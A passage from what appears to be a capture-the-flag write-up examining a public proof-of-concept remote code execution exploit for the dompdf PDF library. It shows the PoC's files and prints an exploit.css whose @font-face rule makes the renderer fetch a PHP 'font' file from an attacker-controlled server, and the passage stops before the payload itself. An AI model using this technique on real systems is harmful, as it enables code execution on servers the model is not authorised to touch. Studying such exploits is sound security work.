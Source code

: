 ![img](../img/622a16a6fe8ba07ec2a8b52c_dompdf_rce_cover_cropped.png)

### RCE

#### POC Analysis

Positive Security hosts a proof of concept exploit available
[here](https://github.com/positive-security/dompdf-rce), which I’ll clone to
my machine with `git clone https://github.com/positive-security/dompdf-rce`.
It seems that many more POC scripts have come out since Interface’s release.
I’ll work with this original.

It has two folders along side the readme:

    
    
    oxdf@hacky$ ls
    application  exploit  README.md
    

`application` holds a vulnerable application. I’m interested in `exploit`:

    
    
    oxdf@hacky$ ls exploit/
    exploit.css  exploit_font.php  overview.png
    

`overview.png` is the image I showed above.

The exploit idea is to send in HTML that loads `exploit.css` as a stylesheet.
That file looks like:

    
    
    @font-face {
        font-family:'exploitfont';
        src:url('http://localhost:9001/exploit_font.php');
        font-weight:'normal';
        font-style:'normal';
      }
    